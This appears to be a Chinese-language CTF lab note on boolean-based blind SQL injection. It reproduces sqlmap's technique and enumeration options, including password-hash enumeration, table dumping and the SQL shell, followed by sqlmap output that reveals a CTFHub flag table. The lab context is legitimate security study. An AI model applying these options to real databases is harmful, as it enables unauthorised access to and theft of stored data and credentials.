 ```yaml
---
cover: https://w.wallhaven.cc/full/6q/wallhaven-6qg377.png
created: 2024-11-27T22:18
date: 2024-11-15 20:12:06+00:00
lastmod: 2024-11-15 20:43:56+00:00
tag: web渗透
title: 布尔盲注
updated: 2024-12-30T23:33
---
```



# 布尔盲注

```shell
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

```

#### **技术** [#](https://wiki.wgpsec.org/knowledge/tools/sqlmap.html#%E6%8A%80%E6%9C%AF)

以下选项用于调整特定 SQL 注入技术的测试方法

```bash
--technique=TECH	#使用的 SQL 注入技术（默认为“BEUSTQ”)
B: Boolean-based blind SQL injection（布尔型盲注）
E: Error-based SQL injection（报错型注入）
U: UNION query SQL injection（联合查询注入）
S: Stacked queries SQL injection（堆查询注入）
T: Time-based blind SQL injection（时间型盲注）
Q: inline Query injection（内联查询注入）

--time-sec=TIMESEC  #设置延时注入的时间（默认为 5）
--second-order=S..  #设置二阶响应的结果显示页面的 URL（该选项用于二阶 SQL 注入）
```

#### **枚举** [#](https://wiki.wgpsec.org/knowledge/tools/sqlmap.html#%E6%9E%9A%E4%B8%BE)

以下选项用于获取数据库的信息，结构和数据表中的数据。

```bash
-a, --all          #获取所有信息、数据
-b, --banner        #获取 DBMS banner,返回数据库的版本号
--current-user			#获取 DBMS 当前用户
--current-db			#获取 DBMS 当前数据库
--hostname				#获取 DBMS 服务器的主机名
--is-dba				#探测 DBMS 当前用户是否为 DBA（数据库管理员）
--users					#枚举出 DBMS 所有用户
--passwords				#枚举出 DBMS 所有用户的密码哈希
--privileges			#枚举出 DBMS 所有用户特权级
--roles					#枚举出 DBMS 所有用户角色

--dbs					#枚举出 DBMS 所有数据库
--tables				#枚举出 DBMS 数据库中的所有表
--columns				#枚举出 DBMS 表中的所有列
--schema				#枚举出 DBMS 所有模式
--count					#获取数据表数目
--dump					#导出 DBMS 数据库表项
--stop 10				#只取前10行数据
  
-D DB					#指定要枚举的 DBMS 数据库
-T TBL					#指定要枚举的 DBMS 数据表
-C COL					#指定要枚举的 DBMS 数据列
  
--sql-query=QUERY		#指定要执行的 SQL 语句
--sql-shell				#调出交互式 SQL shell
```

```shell
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(110) |
+--------+--------------+

```

```shell
Database: sqli
Table: flag
[1 entry]
+-----------------+
| flag            |
+-----------------+
| ctfhub{9766ed9X |
+-----------------+
```

‍
